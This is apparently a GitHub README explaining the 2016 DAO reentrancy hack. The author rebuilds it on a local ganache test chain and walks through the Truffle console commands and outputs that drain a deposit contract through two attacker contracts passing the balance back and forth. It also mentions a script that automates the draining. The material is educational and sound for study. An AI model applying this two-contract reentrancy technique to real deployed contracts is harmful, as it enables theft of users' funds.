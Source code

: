 #Detailed run through a reentrancy bug attrack

In 2016 I remember watching the DAO contract getting drained of all its Ether. In 2018 I did the Consensus Solidity course. I understand what a re-entrancy bug is, but its always bothered me how exactly did the attacker get away with so much Ether.

My background is in Numerical programming, the first language I learnt was Fortran, then C. My general work flow was to write the numerical code I needed in C, compile it as DLL and then call it from Excel.

Why Excel, its a nice front end and it interfaced seamlessly with Reuters (shoutout to Amal).

C gave me speed, Excel gave me a relatively easy front end to program. Things like OOP, inheritance or function overloading have never been my thing. My programming style has always been to write short simple functions, that I debug by stepping through the code and literally see and watch what its doing.

The concept of Ethereum in 2015 really spoke to me, the idea that you could have these contracts/actors that could receive a message and then run some code and its not a cloud based system, and you are guaranteed that the code will run exactly as written its immutable,so the specified code cannot be changed and the Nakamoto consensus ensures that it is run correctly.

Of course you could just run the code on your own machine, but having a distributed network where you could interact with others, in a trustless way was completely revolutionary. I was and I still am convinced this will completely change the world. Given that I am an optimist, I also think it will result in a better world.

I was not too concerned about the DAO hack, to me it was early days, a fork was the obvious and correct solution. To the hacker I say, dude take long long look at yourself, being so destructive is not good for you.

So after all these years and in the midst of the DEFI craze I finally took the time to try and understand it more fully. In short its not that clever, I know that I am not exploring everything the hacker did, like optimize his(er) gas costs etc. The attacker was alerted to the presence of the bug, then all they had to do was design a way to reset it so that they could repeat the attack.

To my mind informing the Ethereum community, or more flamboyantly draining the entire DAO and yhen returning all the Ether, would have assured them fame and gratitude, the way they went about it, means they are just an anonymous destructive **"JOKER"** personality, its a pity because they clearly have skills. The nature of the DAO was that it had timelocks etc etc, which meant that the possibility of a hard fork was almost certain, so that the monetary advantage would probably be less than the fame and eternal gratitude of the entire community.

What I have done is write some code from the gound up to replicate the basics of re-entracy and the ping pong nature of the hack. To fully understand what occured. The code is not "right" for example all functions are defined as public, I am not using a real token. I am not using safe math. The withdrawl check is a joke. What I was after was the simplist version where I could actually see what was occuring.

Ethereum has a EVM(Ethereum virtual machine) which is basically a stack based machine, this link has an excellent explanation as too what these are https://igor.io/2013/08/28/stack-machines-fundamentals.html

**The rentrancy bug works like this:** 
The EVM is running a function the function has certain values on the stack and certain values in memory, it may also have stored certain values in the state, it then sends a message to another contract/actor the way Ethereum works if the receiving contract does not have a function that has been called, (its a whole complex encoding that goes on it uses the function signature the values being passed to the function and a SHA3/Kekkack hash of all of this to identify the function,function overloading is allowed), in the event that nothing triggers a fallback function is run. This will always run, as of this writing I am unsure if this only runs if Ether is sent, or if any message is sent?

Anyway at this point the function that is executing, transfers control of the stack to the other contract/actor this contract can now run anything that is allowed within the Gas allocated to it, after its finished it returns this new stack to the code in the original contract/actor, if that contract/actor makes the assumption that the called contract/actor did nothing it could be a catotrophic mistake. In the case of the DAO the attacker called the SplitDAO function  this function then sent ether to the attackers contract this caused the fallback function ( now called receive in solidity) to run, the attacker added his malicious code here. this is why to me, **this is a hack!** *The hack did not use the contract as written, he inserted his own code.* 
Simply the code the hacker inserted was too call the splitDAO function again to withdraw his ether again. 

I used to have a numerical analysis lecturer who used to say, to iterate is human to recurse is divine. You can see this is a kind of recursion, the issue with recursion is what will cause it to halt, to those familer with Excel, this is a circular reference. In Excel you can set recursion to true, this will allow circular references. but you also have to speficy a value for how many times it will run before deciding that the cells affected have converged that is are no longer changing, so after this number say 1024 it will just halt, so that it does not lock your machine doing some pointless calculation. In Ethereum from what I have read this limit is 128. If you are asking yourself why does the EVM have this at all. To be useful Ethereum must have this structure where sending a message to a contract will cause it to run some code. so unfortunately this is fundemental to the functioning of the system if you want a non trivial machine/network. 

The attacker withdrew 258 ETH each call, the malicious code seems to have been limited to 31 cycles, so I did the same. So in the following the 258 and the value of 31 are totally arbitary

First things first ganache-cli needs to be installed, secondly Truffle needs to be installed.
Clone the resposity change directory to the respository.

I used VisualCode with the solidity extension.
In a terminal window type
```ganache-cli -d -i 66```
The i is the code that identifies the network.
-d means always generate the same accounts and deploy contracts to the same address's
This is critical as nothing will work in the code unless this flag is used.
In another terminal or in the terminal window in VS type

`truffle console --network development`

This will bring up the truffle console
the file truffle-config.js has all the setting for this netwrok and the compiler being used.
Now type

`migrate reset` 

this will compile and deploy four contracts to the ganache instance
Migrations
Deposit
AttackA
AttackB

truffle has a very good debugger that is awesome at looking at whats actually going on
once a transactiuon is submitted and has been mined by ganache if you copy the transactionHash
and run debug transactionHash in the console it will bring up the debugger
in a terminal window its truffle transactionHash
If it says something about not finding the soutrce code thats because the ganache instance and truffle are out of sync.
the easiest way to resolve it is to quit the debbugger with q
quit truffle with .exit 
ctrl-c for ganache-cli
restart ganache-cli -d -i 66
restart truffle console --network development
migrate reset in truffle console
Should resolve it in most cases.

Debugger commands are as follows
b attack.sol:55 will set a breakpoint at line 55 of attack.sol
B all will remove all breakpoints
Then c will run until the breakpoint is hit
v will show local variables
:<|expression|> will show that <|expression|>
+:<|expression|> will add a watch expression. -:<|expresssion|> will remove it
? will list all watchs and breakpoints
; will show low level opcodes and the stack, I am unsure how to switch it off once it starts
h shows help
q quits it.

Now create an interaface for the contracts

```
d = await Deposit.deployed()
A = await AttackA.deployed()
B = await AttackB.deployed()
```

 Now send d some Ether
 
 ```await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})
 The attack withdrew 258 ether each cycle
 
 Now send A 258 wei worth of Tokens
 `A.sendDeposit(258)`
 Check Ether balance of d address
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 Should give
 '15'
 Check Ether balance of A and B
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 should give 0
 `await web3.utils.fromWei(await web3.eth.getBalance(B.address))`
 should give 0
 Now call executeAttack
 `A.executeAttack(true)`
 Now withdraw the 258 wei
 `A.withDraw(258)`
 Check balance of d
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 14.999999999999991486
 Now check balance of A
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 0.000000000000008514
 Notice it withdrew 8514/258 = 33
 So it withdraws Once because of the initial call, then 31+1 times because the variable mutex in AttackA is set to 31 runs from 0
 So 32+1 = 33
 Now lets check Token balance of the attackA account in the deposit contract
 `(await d.getDepositBalance(A.address)).toString()`
 0
 Its zero, you can read the comment in the deposit.sol code about SAFE MATH
 Now check the token balance in contract B
 `(await d.getDepositBalance(B.address)).toString()`
 258
 So if we try and withdraw from contract A again it will revert because the Balance on deposit contract is zero
 `A.withDraw(258)`
 Generates a lot of stuff on the screen but in there is 
 reason: "Balance is zero"
 At this point the attack should halt, but wait we have a psoitive balance over at Contract B
 If we run 
 `B.executeAttack(true)`
 Then call
 `B.withDraw(258)`
 If we check the Balances again
 `(await d.getDepositBalance(B.address)).toString()`
  0
  So the B contract now has balance of zero on deposit
  While, wait for it... contract A has a balance of 258
  `(await d.getDepositBalance(A.address)).toString()`
  258
  Ether Balance on contract A is as expected unchanged
  `await web3.utils.fromWei(await web3.eth.getBalance(A.address)`
  0.000000000000008514
  While B is
  `await web3.utils.fromWei(await web3.eth.getBalance(B.address)`
  0.000000000000008514
  The deposit contract is now
  `await web3.utils.fromWei(await web3.eth.getBalance(d.address)`
    14.999999999999982972
    It was  14.999999999999991486
 14.999999999999991486 - 14.999999999999982972 = 8514
 Now we can run withdraw on contractA again and then on contractB until we run out of ether for Gas or the Deposit contract runs out of Ether
The attacker did the ping-pong about 50x from my reading.

So in short the splitDAO had a bug the update balance was in the wrong place, it updated after the Ether was sent instaed of updating and then 
sending the Ether. The attacker by using to two contracts used a ping-pong or bkeeping the ballon flying strategy, to keep the attack alive.

Repeating the steps above of course this can automated, it will drain all the Ether out of the deposit contract.

DAO.js contains a script that automates the above actions
To run first start truffle console
`migrate reset`
`d = await Deposit.deployed()`
Send some Ether to the deposit contract
`await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})`
Once deposit contract has some Ether in it
`exec ./DAO.js`








 






